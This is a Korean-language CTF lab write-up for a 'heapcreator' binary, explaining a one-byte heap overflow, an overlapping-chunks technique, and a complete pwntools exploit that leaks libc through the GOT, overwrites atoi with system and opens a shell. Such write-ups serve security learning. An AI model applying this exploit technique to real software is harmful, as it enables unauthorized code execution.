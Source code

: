 # 문제
***

heapcreator 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
heapcreator: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5e69111eca74cba2fb372dfcd3a59f93ca58f858, not stripped
```

바이너리 코드

__create_heap()__
```c
__int64 create_heap()
{
    ...
    for(i=0;i<=9;i++)
    {
        if(!heaparray[i])
        {
            heaparray[i] = malloc(0x10);
            ...
            printf("Size of Heap : ");
            read(0,&buf,8);
            size = atoi(buf);
            v0 = heaparray[i]
            v0[1] = malloc(size);
            ...
            *(_QWORD *)heaparray[i] = size;
            printf("Content of heap:");
            read_input(*((void **)heaparray[i] + 1), size);
            ...
        }
    }
}
```

__edit_heap()__
```c
__int64 edit_heap()
{
    ...
    printf("Index :");
    read(0,&buf,4);
    v1 = atoi(&buf);
    ...
    if(heaparray[i])
    {
        printf("Content of heap : ");
        read_input(*((void **)heaparray[i] + 1), *(_QWORD *)heaparray[i] + 1);
        puts("Done !");
    }
    ...
}
```

__show_heap()__
```c
__int64 show_heap()
{
    ...
    printf("Index :");
    read(0,&buf,4);
    v1 = atoi(&buf);
    ...
    if(heaparray[i])
    {
        printf("size : %ld\nContent : %s\n", *(_QWORD *)heaparray[v1], *((_QWORD *)heaparray[i] + 1));
        puts("Done !");
    }
    ...
}
```

__delete_heap()__
```c
__int64 delete_heap()
{
    ...
    printf("Index :");
    read(0,&buf,4);
    v1 = atoi(&buf);
    ...
    if(heaparray[i])
    {
        free(*((void **)heaparray[i] + 1));
        free(heaparray[i]);
        heaparray[i] = 0;
        puts("Done !");
    }
    ...
}
```

heaparray[i] : 0x20 크기의 chunk 주소 저장
0x20 크기의 chunk : size | malloc(size)로 할당한 chunk 주소 <br/><br/>

__edit_heap()__ 함수에서 1byte overflow가 발생한다. 따라서 할당한 chunk의 크기를 (16바이트 단위의 크기 - 8)로 하면 다음 chunk의 size 영역에 1byte를 덮어쓸 수 있다.

## Overlapping Chunks 취약점
__조건__
- free chunk를 생성할 수 있어야 한다.
- free chunk의 size 영역을 overwrite할 수 있어야 한다.

<br/>

__공격 방법__
- 3개의 chunk 생성 
- 2번째 chunk를 free한다.
- free chunk의 size 영역에 재할당 받을 크기의 값을 덮어쓴다. (2번째 chunk의 크기 + 3번째 chunk의 크기 + prev_inuse(1))
- 2번째 chunk의 크기 + 3번째 chunk의 크기를 malloc을 통해서 할당받으면 2번쨰 chunk의 주소가 리턴된다. 이를 통해서 3번째 chunk에 overwrite할 수 있다.

## exploit 방법
1. __create_heap()__ 함수를 통해서 chunk를 2개 할당한다. (첫 번째 heap의 크기는 (16*X - 8)로 하고 두 번째 heap의 크기는 0x20이 되도록 한다.)
2. __edit_heap()__ 함수를 이용해서 heaparray[1]에 저장되어 있는 chunk의 size를 overwrite 한다. 
3. heaparray[1]의 chunk를 free한다.
4. __create_heap()__ 함수를 통해서 overwrite한 크기의 chunk를 할당한다. 이를 통해서 heaparray[1]에 저장된 chunk의 data 영역을 overwrite할 수 있다.

__주의할 점__ <br/><br/>
만약 0x100 크기의 small chunk (large chunk) 두 개를 할당하고 앞에 있는 small chunk의 size 영역을 0x201로 덮어쓰는 공격이 가능하다고 하자. 그 뒤에 두 chunk를 free하고 mallc(0x1f0)하면 첫 번째 chunk의 주소가 리턴된다. 하지만 그 이후 malloc(0xf0)을 하면 error가 발생한다. unlink 함수에서 chunksize(P) != prev_size (next_chunk(P) 이 조건을 만족시키지 못해서 터지는 것 같다.


 
# 풀이
***
```
#!/usr/bin/python

from pwn import *

def create_heap(size,content):
	p.recvuntil("choice :")
	p.send("1"+"\x00")
	p.recvuntil(" : ")
	p.send(size)
	p.recvuntil("heap:")
	p.send(content)
	p.recvuntil("SuccessFul\n")

def edit_heap(index,content):
	p.recvuntil("choice :")
	p.send("2"+"\x00")
	p.recvuntil(" :")
	p.send(index)
	p.recvuntil("heap : ")
	p.send(content)
	p.recvuntil("!\n")

def show_heap(index):
	p.recvuntil("choice :")
        p.send("3"+"\x00")
        p.recvuntil(" :")
        p.send(index)
	p.recvuntil("Content : ")
	content=p.recvuntil("\n", drop=True)
	p.recvuntil("!\n")
	return content

def delete_heap(index):
	p.recvuntil("choice :")
	p.send("4"+"\x00")
	p.recvuntil(" :")
	p.send(index)
	p.recvuntil("!\n")

file_path="/home/sungyun/round4/lab13/heapcreator"

puts_got=0x602028
atoi_got=0x602060

p=process(file_path)
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

create_heap("40","ha_weeee^____^")
create_heap("16","ba_weeee^____^")

pay="A"*40
pay+="\x41"

edit_heap("0",pay)

delete_heap("1")

create_heap("48","1_c4n_0verwrite")

pay2="A"*0x20
pay2+="\x30"+"\x00"*7
pay2+=p64(atoi_got)

edit_heap("1",pay2)

atoi_got=show_heap("1")
atoi_got=u64(atoi_got+"\x00"*(8-len(atoi_got)))

libc_base=atoi_got-libc.symbols['atoi']
#one_gad=libc_base+0x4526a
system=libc_base+libc.symbols['system']

edit_heap("1",p64(system))


p.recvuntil("choice :")
p.send("sh\x00")

p.interactive()
```

